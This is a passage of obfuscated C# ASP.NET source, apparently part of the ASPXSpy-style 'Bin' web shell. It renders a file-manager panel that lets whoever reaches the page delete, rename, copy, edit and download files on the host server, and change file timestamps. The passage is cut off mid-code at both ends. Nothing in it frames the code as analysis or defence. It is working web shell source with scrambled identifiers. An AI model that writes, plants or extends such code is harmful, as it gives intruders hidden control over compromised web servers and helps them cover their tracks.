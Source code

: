 ZGKh.Text="<a href=\"javascript:if(confirm('Are you sure will delete it ?\\n\\nIf non-empty directory,will be delete all the files.')){Bin_PostBack('kRXgt','"+MVVJ(AXSbb.Value+Bin_folder.Name)+"')};\">Del</a> | <a href='#' onclick=\"var filename=prompt('Please input the new folder name:','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_folder.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('dAJTD"+MVVJ(AXSbb.Value+Bin_folder.Name)+"',filename);} \">Rename</a>";
tr.Cells.Add(ZGKh);
UGzP.Rows.Add(tr);
}
TableRow cKVA=new TableRow();
cKVA.Attributes["style"]="border-top:1px solid #fff;border-bottom:1px solid #ddd;";
cKVA.Attributes["bgcolor"]="#dddddd";
TableCell JlmW=new TableCell();
JlmW.Attributes["colspan"]="6" ;
JlmW.Attributes["height"]="5";
cKVA.Cells.Add(JlmW);
UGzP.Rows.Add(cKVA);
int aYRwo=0;
foreach(FileInfo Bin_Files in GQMM.GetFiles())
{
aYRwo++;
string gb=OKM();
TableRow tr=new TableRow();
TableCell tc=new TableCell();
tc.Width=Unit.Parse("2%");
tc.Text="<input type=\"checkbox\" value=\"0\" name=\""+MVVJ(Bin_Files.Name)+"\">";
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=gb;
tr.Attributes["onmouseout"]="this.className='"+gb+"';";
tr.Cells.Add(tc);
TableCell filename=new TableCell();
if(Bin_Files.FullName.StartsWith(Request.PhysicalApplicationPath))
{
string url=Request.Url.ToString();
filename.Text="<a href=\""+Bin_Files.FullName.Replace(Request.PhysicalApplicationPath,url.Substring(0,url.IndexOf('/',8)+1)).Replace("\\","/")+"\" target=\"_blank\">"+Bin_Files.Name+"</a>";
}
else
{
filename.Text=Bin_Files.Name;
}
TableCell albt=new TableCell();
albt.Text=Bin_Files.LastWriteTimeUtc.ToString("yyyy-MM-dd hh:mm:ss");
TableCell YzK=new TableCell();
YzK.Text=mTG(Bin_Files.Length);
TableCell GLpi=new TableCell();
GLpi.Text="<a href=\"#\" onclick=\"Bin_PostBack('ksGR','"+MVVJ(AXSbb.Value+Bin_Files.Name)+"')\">Down</a> | <a href='#' onclick=\"var filename=prompt('Please input the new path(full path):','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_Files.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('Bin_CFile"+MVVJ(AXSbb.Value+Bin_Files.Name)+"',filename);} \">Copy</a> | <a href=\"#\" onclick=\"Bin_PostBack('Bin_Editfile','"+Bin_Files.Name+"')\">Edit</a> | <a href='#' onclick=\"var filename=prompt('Please input the new file name(full path):','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_Files.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('Tlvz"+MVVJ(AXSbb.Value+Bin_Files.Name)+"',filename);} \">Rename</a> | <a href=\"#\" onclick=\"Bin_PostBack('cYAl','"+Bin_Files.Name+"')\">Time</a> ";
tr.Cells.Add(filename);
tr.Cells.Add(albt);
tr.Cells.Add(YzK);
tr.Cells.Add(GLpi);
UGzP.Rows.Add(tr);
}
string lgb=OKM();
TableRow oWam=new TableRow();
oWam.CssClass=lgb;
for(int i=1;i<4;i++)
{